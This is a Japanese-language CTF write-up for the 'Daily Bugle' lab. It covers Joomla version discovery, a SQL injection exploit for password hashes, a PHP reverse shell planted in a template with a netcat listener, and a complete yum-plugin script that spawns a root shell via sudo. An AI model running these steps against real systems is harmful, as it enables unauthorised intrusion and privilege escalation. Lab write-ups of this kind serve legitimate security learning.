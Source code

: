 ```yaml
---
title: "Daily Bugle"
date: 2024-03-17T04:41:11+09:00
draft: false
---
```



### user.txt

- Joomla! というのが動いてる
  - ```/language/en-GB/en-GB.xml``` にアクセスするとバージョンが見える([Joomla - HackTricks]([url](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)))
- searchsploit で SQLi がヒットする
  - python のエクスプロイトコードが出ている([Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py))
  - ユーザ名とパスワードハッシュが得られる
- Joomla にログイン
  - リバースシェルが template に貼れる([Joomla: Reverse Shell](https://www.hackingarticles.in/joomla-reverse-shell/))
  - beez3 に php リバースシェルを貼る
  - save する
  - ```nc -nlvp 1234```
- リバースシェル
  - apache としてログイン，権限がなく user.txt が見れない
  - linpeas.sh でパスワードが露出していることが分かる（どういう仕組みなんだこれ）
  - ```su jjameson```

### root

- yum が使えるらしい
  - rpm ロードをやろうとしたが fpm が使えず断念

```shell
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
